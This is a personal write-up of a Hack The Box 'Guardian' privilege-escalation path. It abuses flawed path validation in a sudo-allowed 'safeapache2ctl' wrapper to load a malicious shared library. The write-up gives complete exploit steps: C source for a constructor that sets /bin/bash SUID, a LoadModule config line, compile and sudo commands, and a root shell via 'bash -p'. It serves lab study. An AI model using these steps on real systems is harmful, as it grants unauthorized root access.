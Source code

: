 # SafeApache2ctl Privilege Escalation - Shared Library Hijacking Technique Breakdown
- Found `HTB` Guardian privilege Escalation path very interesting , challenging box nonetheless.
- Taking notes for future references, referenced blog post on Guardian by [HYH](https://www.hyhforever.top/posts/2025/09/htb-guardian/).


####  Overview
This exploit leverages a path validation vulnerability in `safeapache2ctl` to load a malicious shared library with root privileges, resulting in persistent privilege escalation through `SUID` binary creation.


### Vulnerability Analysis

#### Core Vulnerability: Flawed Path Validation
- The `safeapache2ctl` binary contains a vulnerable function `is_unsafe_line()` with improper path sanitization:

```bash
// Flawed validation logic
if (local_1018[0] == '/') {  // Only check absolute paths
    iVar1 = starts_with(local_1018,"/home/mark/confs/");
    if (iVar1 == 0) {
        // Block access
    }
}
// Relative paths bypass this check entirely!
```

### Security Control Bypass
- Intended Security: Restrict file operations to `/home/mark/confs/`
- Actual Behavior: Any file in the allowed directory can be referenced, including malicious shared libraries
- Bypass Method: Use absolute paths within the trusted directory that point to malicious content

### Attack Vectors

#### Exploitable Directives
The vulnerability affects three Apache configuration directives:
- `Include` - File inclusion
- `IncludeOptional` - Optional file inclusion
- `LoadModule` ⭐ Most Dangerous - Shared library loading
#### Why `LoadModule` is Critical

```c
// Apache processes this directive:
LoadModule evil_module /home/mark/confs/evil.so

// Which triggers:
dlopen("/home/mark/confs/evil.so")  // Loads shared library
// Constructor executes automatically with Apache's privileges
```
### Payloads
#### Payload Development
- `evil.c`, create malicious library
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor)) void init() {
    setuid(0);
    system("chmod +s /bin/bash");
}
```
- `__attribute__((constructor))` - Function executes automatically on library load
- `setuid(0)` - Elevates privileges to root
- `chmod +s /bin/bash` - Creates persistent SUID root binary
#### Exploit Configuration
- `exploit.conf `, create exploit configuration and achieves code execution via shared library constructor
```bash
LoadModule evil_module /home/mark/confs/evil.so
```

### Reproduce The Attack
- Place `evil.c` in `/home/mark/`
- Place `evil.conf` in `/home/mark/conf`
- Compile the shared library 
```bash
$ gcc -shared -fPIC -o /home/mark/confs/evil.so /home/mark/evil.c
```
- Run `safeapache2ctl` as `sudo`
```bash
$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
```
- Run `bash` in privileged mode
```bash
$ bash -p
$ whoami  
root
```
